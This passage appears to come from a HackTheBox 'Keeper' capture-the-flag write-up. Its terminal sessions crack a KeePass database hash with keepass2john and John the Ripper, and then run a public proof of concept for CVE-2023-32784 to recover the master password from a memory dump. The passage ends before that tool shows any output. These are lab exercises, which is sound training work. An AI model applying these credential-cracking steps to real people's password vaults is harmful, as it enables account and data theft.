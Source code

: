 ```
└─$ file passcodes.kdbx     
passcodes.kdbx: Keepass password database 2.x KDBX
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/keeper/RT30000]
└─$ 
```

#### Cracking password
At first I tried to crack the password via john:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/keeper/RT30000]
└─$ keepass2john passcodes.kdbx > keepasshash.txt
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/keeper/RT30000]
└─$ cat keepasshash.txt
passcodes:$keepass$*2*60000*0*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7*08500fa5a52622ab89b0addfedd5a05c*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/keeper/RT30000]
└─$ john --wordlist=/home/kali/Desktop/tools/rockyou.txt keepasshash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:52 0.03% (ETA: 2023-11-02 11:59) 0g/s 100.1p/s 100.1c/s 100.1C/s ilovetim..anggandako
0g 0:00:04:53 0.18% (ETA: 2023-11-02 09:08) 0g/s 106.0p/s 106.0c/s 106.0C/s 251200..230591
0g 0:00:10:24 0.39% (ETA: 2023-11-02 08:38) 0g/s 107.0p/s 107.0c/s 107.0C/s 881207..777777777777777
0g 0:00:32:31 1.21% (ETA: 2023-11-02 08:38) 0g/s 105.1p/s 105.1c/s 105.1C/s batugan..batman90



```
But that didn't seem to be the right way.


So maybe the dump is more important. I searched for extracting credentials from a KeePass dump and found the [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784). I remember this recent vulnerability. This makes it possible to find the master password after a certain pattern in the memory dump.

So I tried this [PoC](https://github.com/vdohney/keepass-password-dumper) to dump the password from the minidump:
```
┌──(kali㉿kali)-[~/…/hackthebox/keeper/RT30000/keepass-password-dumper]
└─$ dotnet run ../KeePassDumpFull.dmp

Welcome to .NET 7.0!
---------------------
SDK Version: 7.0.403

----------------
Installed an ASP.NET Core HTTPS development certificate.
To trust the certificate run 'dotnet dev-certs https --trust' (Windows and macOS only).
Learn about HTTPS: https://aka.ms/dotnet-https
----------------
Write your first app: https://aka.ms/dotnet-hello-world
Find out what's new: https://aka.ms/dotnet-whats-new
Explore documentation: https://aka.ms/dotnet-docs
Report issues and find source on GitHub: https://github.com/dotnet/core
Use 'dotnet --help' to see available commands or visit: https://aka.ms/dotnet-cli
```